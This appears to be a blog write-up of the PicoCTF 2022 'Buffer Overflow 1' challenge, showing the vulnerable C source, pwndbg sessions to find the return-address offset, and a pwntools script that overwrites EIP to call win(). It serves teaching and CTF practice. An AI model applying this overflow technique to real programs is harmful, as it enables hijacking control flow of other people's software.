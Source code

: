 ```yaml
---

title: "Buffer Overflow 1"
date: 2023-08-22T19:48:58+08:00
author: John Wu
summary: "PicoCTF 2022's buffer overflow 1 writeup"
tags: ["CTFs","guides","tech", "pwn"]
ShowToc: true
draft: false

---
```


This was a pretty beginner challenge for pwn that took me 2 days to figure out :). Fun times.
Going through multiple writeups and documentation to find how to do anything with binary exploitation tools is impossible.
So, here is a condensed version of what I've learned in the hours I spent on this problem.
All it takes is a little knowledge in reading x86, C, python, CPU registers, and some basic stack memory knowledge.

## Given Stuff

Problem:

Control the return address. Additional details will be available after launching your challenge instance.

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.


```c
// vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`vuln`

## Tools
- GDB/pwndbg
- python3
- pwntools
- System: Linux 6.4.11-arch2-1 #1 SMP PREEMPT_DYNAMIC x86_64 GNU/Linux

## Analysis
Make the `vuln` file executable first: `chmod +x vuln`.
Open the project in GDB for analyzing: `gdb vuln`.
Create the fake flag locally: `echo "picoCTF{flag} > flag.txt"`.
From the source code, we see that there is a function `win` that is never called by `main` or `vuln`.
However, because it is still in the code and for the sake of the challenge, the program will still load `win` onto the stack.
```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

So, find the location of `win`.

```
pwndbg> info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x080491f6  win
pwndbg>
```

So `win` is located at 0x080491f6, and since this is a buffer overflow problem, we just have to set $eip to 0x080491f6.

The vulnerability in the code is in the function `vuln`, because of the use of `gets()`.
So lets find out the buffer size in order to overflow the stack.

```
pwndbg> cyclic 300
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
pwndbg> r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32 
*EBP  0x6161616b ('kaaa')
*ESP  0xffffd4e0 ◂— 0x6161616d ('maaa')
*EIP  0x6161616c ('laaa')
─────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]─────────────────────────────────────────────────────────────────────
Invalid address 0x6161616c

pwndbg>
```

`cyclic` from pwntools is available in pwndbg.
It basically creates a recognizable pattern that we can use to find where in the stack a 4 byte pattern exists.

[more resources](https://en.wikipedia.org/wiki/De_Bruijn_sequence), [and more](https://ir0nstone.gitbook.io/notes/types/stack/de-bruijn-sequences)

`r <<< <de-bruijn-sequences>` just means `run` the program, and input the de-bruijn-sequence.
The register $eip is now laaa, so we just have to find the offset of "laaa" to find how many bytes we need to overflow the eip.

The `cyclic -l` or `cyclic --lookup` command in pwndbg helps us locate the offset of a string or hex value.

```
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
pwndbg>
```

## Solve

The pattern is at offset 44, so we can just append where `win` is in memory after 44 bytes which we know is at 0x080491f6.
So to put that into a python script with pwntools:
```python
# solve.py
from pwn import *

payload = b"A" * 44 + p32(0x80491f6)
target = remote('saturn.picoctf.net', 61303)

log.info(target.recvline())
target.sendline(payload)
log.info(target.recvall())

target.close()
```

Note that we can't send the raw 0x80491f6 because it's not in little endian, so we have to use the `p32()` function [docs](https://docs.pwntools.com/en/stable/util/packing.html)
We also can't send in the raw "A" because thats also not a byte, so we have to prepend `b""` to it, which in python means "turn it into bytes."

We can check locally by sending this into GDB:

```sh
pwndbg> r <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
Starting program: /home/hyperboly/Downloads/bufover1/vuln <<< $(echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{flag}

Program received signal SIGSEGV, Segmentation fault.
```
